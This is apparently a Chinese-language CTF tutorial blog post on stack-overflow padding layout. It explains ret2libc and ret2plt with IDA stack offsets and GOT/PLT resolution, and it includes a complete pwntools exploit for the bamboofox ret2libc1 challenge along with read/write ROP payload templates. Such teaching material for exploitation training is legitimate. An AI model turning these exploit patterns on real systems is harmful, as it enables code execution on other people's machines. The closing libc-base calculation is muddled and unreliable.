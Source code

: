 # 浅谈栈溢出填充布局-1

## 经典栈溢出

如果判断我们再写payload的时候，该如何填充分配布局。首先上一张经典的内存图

![](https://github-1251836300.cos.ap-guangzhou.myqcloud.com/%E6%B5%85%E8%B0%88%E6%A0%88%E6%BA%A2%E5%87%BA%E5%A1%AB%E5%85%85%E5%B8%83%E5%B1%80-1/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE(126).png)

我们都知道栈溢出的关键点就是覆盖修改掉**EBP**所指地址下面的**Return Addr**从而达到劫持EIP修改程序流程

举一个例子

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/level0/pic/2.png)

我们打开IDA常常能看到形似这样的提示

```
char buf; //[rsp+0h][rbp-80h]
```

就这代表**buf**的起始地址距离rbp的长度是0x80，也就是0x80个字节，也就是0x80个char类型数据，好了，我们知道如果填充0x80个字母，就会覆盖掉ESP所指的内容，那么距离我们需要覆盖掉的**Return Addr**还隔着一个**Main's EBP**，这是一个指针的数据类型，我们知道在32位系统里面，一个指令所占的内存是4个字节，如果是64位系统就是8个字节，所以我们还需要填充相应个数的字节，我们才能将我们的伪造的Return Addr覆盖到那个位置

如果要判断每个变量的相对地址大小也很容易，再举个例子

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/when_did_you_born/pic/2.png)

```
char v4; //[rsp+0h][rbp-20h]
int v5;//[rsp+8h][rbp-18h]
```

可以知道两个变量的距离就是相距0x8个字节

## ROP

### Ret2libc

继续先放一张图

![](https://github-1251836300.cos.ap-guangzhou.myqcloud.com/%E6%B5%85%E8%B0%88%E6%A0%88%E6%BA%A2%E5%87%BA%E5%A1%AB%E5%85%85%E5%B8%83%E5%B1%80-1/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE(127).png)

我们一般的**ROP**就是覆盖掉**Ret Addr**使得EIP指向我们需要的内存中已经存在的指令

例如，如果我们有可以利用的**libc**的话，一般是直接跳转调用**system**函数。原本ret addr返回到caller func的call callee下一条指令处，但我们将其修改为system函数的地址，此时ret就相当于调用了system。而system调用时，我们的payload在Ret addr下面伪造了栈帧，布置其ret addr为exit函数地址，如果是rop，就是下一个gadgets的地址，然后接下来的内存地址就是函数的调用参数，攻击链如下

```
ret -> system(arg) -> exit
```

举一个 bamboofox 中 ret2libc1 为例  

首先，我们可以检查一下程序的安全保护

```c
➜  ret2libc1 checksec ret2libc1    
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

源程序为 32 位，开启了 NX 保护。下面来看一下程序源代码，确定漏洞位置

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

可以看到在执行 gets 函数的时候出现了栈溢出。此外，利用 ropgadget，我们可以查看是否有 /bin/sh 存在

```c
➜  ret2libc1 ROPgadget --binary ret2libc1 --string '/bin/sh'          
Strings information
============================================================
0x08048720 : /bin/sh
```

确实存在，再次查找一下是否有 system 函数存在。经在 ida 中查找，确实也存在。

```c
.plt:08048460 ; [00000006 BYTES: COLLAPSED FUNCTION _system. PRESS CTRL-NUMPAD+ TO EXPAND]
```

那么，我们直接返回该处，即执行 system 函数。相应的 payload 如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

可以到核心payload

```
'a' * 112 + system_plt +'b' * 4 + binsh_addr
```

因为**v4**是`[ebp-64h]`，然后又是32位系统，故若想要**system**的地址覆盖**ret addr**就需要**0x64+0x4**个字节，然后我们不需要再跳转到其他地址，所以返回地址就随便填四个字节的数据就可以，然后第一个参数**binsh**的地址就跟着

如果我们想查看已有符号表的函数地址，可以在**gdb**里面

```
p system
```

### Ret2plt

**ALSR**的出现导致**libc.so**基址随机化，而**plt**缺因为**ELF**本身没有随机化(前**PIE**时代)而不会发生变化，所以我们可以不直接ret2libc，而是间接ret2plt

**PLT(Proceduce Link Table)，GOT(Global Offset Table)**

**GOT**是一个存储外部库函数的表，可以用**GOT**表来间接引用全局变量、函数，也可以把**GOT**表的首地址作为一个基准，用相对于该基准的偏移量来引用静态变量、静态函数。意思是说，**GOT**是一个映射表，这里的内容是此段代码里面引用到的外部符号的地址映射，比如你用到了一个`printf`函数，就会和**GOT**表产生关系。那这又和**PLT**有什么关系呢

PLT表可以称为内部函数表，GOT表为全局函数表，这两个表是相对应的，为什么叫做相对应呢，PLT表中的数据就是GOT表中的一个地址，是一一对应的。所以PLT表中存储的数字到底是什么意思？

**其实就是以GOT表的首地址作为一个基准称为基值，PLT中的值即为所指向函数在内存中相对于基值的偏移量（offset）**

![](https://github-1251836300.cos.ap-guangzhou.myqcloud.com/%E6%B5%85%E8%B0%88%E6%A0%88%E6%BA%A2%E5%87%BA%E5%A1%AB%E5%85%85%E5%B8%83%E5%B1%80-1/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE(128).png)

也就是说`printf@plt`的在内存中的真实地址是： **GOT基值+PLT存储的偏移量**

- `got['a_function']`找到 `a_function`的 **GOT**
- `plt['a_function']`找到 `a_function`的 **PLT**

一般来说GOT表是可以改变的，是可写的，PLT表一般是不变的

![img](https://github-1251836300.cos.ap-guangzhou.myqcloud.com/%E6%96%B0%E6%89%8B%E5%90%91%E2%80%94%E2%80%94%E6%B5%85%E8%B0%88PLT%E5%92%8CGOT/5970003-bcf9343191848103.png)

当我们第一次**call puts**函数，首先跳转到**PLT**表中的**puts**项(**0x080482b0**)，然后又会**jmp**到**GOT**表中的一个地址(**0x80496f8**)，然后这个地址中存储的数据刚好就是**jmp**指令的下一个**push**指令(**0x080482b6**)，实际上**push**的是**PLT**表中**puts**函数的编号，实际上就是模拟了一个**call**，然后又会跳转到一个全局函数(**0x80482a0**)，去**GOT**表中找到真正的**puts**地址(**0xf7e7c7e0**)，同时会修改**PLT**表中**jmp**的第一个地址(**9x80496f8**)的内容为真正的**puts**地址(**0xf7e7c7e0**)

当程序第二次**call puts**时从**PLT**表里**jmp**的就是真正的**puts**函数地址了

![img](https://github-1251836300.cos.ap-guangzhou.myqcloud.com/%E6%96%B0%E6%89%8B%E5%90%91%E2%80%94%E2%80%94%E6%B5%85%E8%B0%88PLT%E5%92%8CGOT/5970003-9baedd55881a39dd.png)

Ret2plt较之ret2libc更为局限，因为只有漏洞程序调用的库函数才会出现在PLT表。Redhat和fedora上部署了一种ASCII armoring的保护机制。这一机制使得库函数地址都包含一个\x00字节(用来截断copy)

衍生出一种利用PPR链(POP POP Ret)和strcpy@plt拼凑出system地址的新ret2plt方法，并覆写某个其他plt函数的got项![](https://github-1251836300.cos.ap-guangzhou.myqcloud.com/%E6%B5%85%E8%B0%88%E6%A0%88%E6%BA%A2%E5%87%BA%E5%A1%AB%E5%85%85%E5%B8%83%E5%B1%80-1/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE(129).png)

相当于第一次**copy system**函数**PLT**的**GOT**项的第一个字节到**puts**函数**PLT**的**GOT**项的第一个字节，然后**PPR**的链作为返回地址，**got[0] of puts** 和**Addr of system[0]**分别是第**1**和第**2**参数，则当**PPR**后，弹出栈中**got[0] of puts**和**Addr of system[0]**后，**ret**的地址就是**Addr of system[0]**下面的又一个**strcpy**函数，因为是32位系统，一个指针4个字节，重复4次就能修改**puts**为**system**函数

常见的read函数payload

```
p32(e.symbols["read"]) + p32(buf2_addr) + p32(0) + p32(buf2_addr) + p32(0x100)
```

返回地址是**buf**的话，一般就是**buf**上面布置了**ROP**链或者**shellcode**

常见的write函数payload

```
p32(elf.symbols["write"])+p32(main) + p32(1)+p32(elf.got["write"])+p32(4)
```

就是返回地址是**mian**函数的地址，然后其他三个参数参考**write**函数的**API**定义

如果已知libc.so则可以先通过ELF先计算出write和system的偏移，再用输出地址减去write的偏移就可以计算出libc.so的基址，再用libc.so的基址加上system的偏移就可以动态算出system在本次运行时的地址，未知libc则需要额外的leak函数

一般暴露的都是函数在GOT表中的地址

得到write函数与system函数偏移量

```
off_set = libc.symbols['write'] - libc.symbols['system']
```

然后当我们拿到`write`函数在**GOT**表中的真实地址时,就可以计算出基值的真实地址

```
libc_address = write_address - off_set
```

合并在一起就是

```
libc_address = write_address - （libc.symbols['write'] - libc.symbols['system']）
```

